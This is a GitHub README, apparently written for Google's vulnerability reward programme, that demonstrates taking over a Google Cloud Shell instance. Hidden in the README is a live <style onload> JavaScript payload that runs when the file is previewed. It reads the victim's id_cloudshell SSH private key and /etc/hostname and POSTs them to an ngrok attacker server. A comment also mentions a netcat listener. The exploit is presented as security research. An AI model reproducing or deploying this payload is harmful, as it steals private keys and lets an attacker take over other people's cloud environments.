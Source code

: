 # Google VRP testing  
Google cloudshell instance take over (as root)

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fomespino%2Fgcs_instace_takeover.git&cloudshell_open_in_editor=readme.md)

## Getting Started 
just need to preview this file to see the magic 
 
<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  ' https://56051573.ngrok.io'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
